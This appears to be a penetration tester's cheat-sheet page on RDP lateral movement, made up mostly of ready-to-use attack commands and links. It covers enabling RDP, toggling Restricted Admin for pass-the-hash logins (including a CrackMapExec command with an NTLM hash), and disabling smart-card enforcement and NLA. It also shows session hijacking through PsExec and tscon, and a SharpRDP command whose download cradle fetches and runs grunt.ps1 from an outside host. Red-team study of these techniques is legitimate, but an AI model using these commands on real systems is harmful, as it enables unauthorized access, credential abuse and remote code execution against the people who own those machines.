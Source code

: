 # RDP

* [https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop](https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop)
* [https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3](https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3)




## Enable RDP

From meterpreter:

```
meterpreter > run getgui -e
```

From PowerShell:

```
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
PS > Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
```




## Restricted Admin

* [https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
* [https://blog.ahasayen.com/restricted-admin-mode-for-rdp/](https://blog.ahasayen.com/restricted-admin-mode-for-rdp/)
* [https://labs.f-secure.com/blog/undisable/](https://labs.f-secure.com/blog/undisable/)
* [https://shellz.club/pass-the-hash-with-rdp-in-2019/](https://shellz.club/pass-the-hash-with-rdp-in-2019/)
* [https://github.com/GhostPack/RestrictedAdmin](https://github.com/GhostPack/RestrictedAdmin)

RDP with [PtH](http://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/): RDP needs a plaintext password unless Restricted Admin mode is enabled.

Enable with PowerShell:

```
PS > Get-ChildItem "HKLM:\System\CurrentControlSet\Control\Lsa" -Recurse
PS > Get-Item "HKLM:\System\CurrentControlSet\Control\Lsa"
PS > New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0 -PropertyType "DWORD"
PS > Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
PS > Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 1
PS > Remove-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
```

Enable with CME:

```
$ cme smb 192.168.1.11 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

Use:

```
$ xfreerdp /pth
Cmd > mstsc.exe /restrictedAdmin
```




## Smart Card Authentication

Disable enforced smart card authentication during interactive logon:

```
PS > Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption"
PS > Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption" -Value 0
```

### Emulating PIV

- [https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/](https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/)
- [https://github.com/CCob/PIVert](https://github.com/CCob/PIVert)
- [https://twitter.com/an0n_r0/status/1560699385545195521](https://twitter.com/an0n_r0/status/1560699385545195521)
- [https://twitter.com/snovvcrash/status/1561020682242326528](https://twitter.com/snovvcrash/status/1561020682242326528)




## NLA

Disable NLA:

```
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```




## Hijack RDP Sessions

- [http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)
- [https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement](https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement)
- [https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/](https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/)

Run Task manager as LocalSystem to hijack other users' sessions:

```
PS > .\PsExec64.exe -si C:\Windows\System32\Taskmgr.exe -accepteula
```

The same can be achieved with `tscon.exe`:

```
PS > .\PsExec64.exe -s \\localhost cmd
PS > quser.exe
PS > cmd /k tscon.exe <ID> /dest:<CURRENT_SESSIONNAME>
```



### Tools

- [https://github.com/SecureAuthCorp/impacket/blob/master/examples/tstool.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/tstool.py)
- [https://github.com/netero1010/RDPHijack-BOF](https://github.com/netero1010/RDPHijack-BOF)




## Tools



### SharpRDP

- [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
- [https://github.com/S3cur3Th1sSh1t/SharpRDP](https://github.com/S3cur3Th1sSh1t/SharpRDP)

```
Cmd > .\SharpRDP.exe computername=srv01 command="iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/grunt.ps1')" username=megacorp\snovvcrash password=Passw0rd!
```



### SharpRDPHijack

- [https://github.com/bohops/SharpRDPHijack](https://github.com/bohops/SharpRDPHijack)
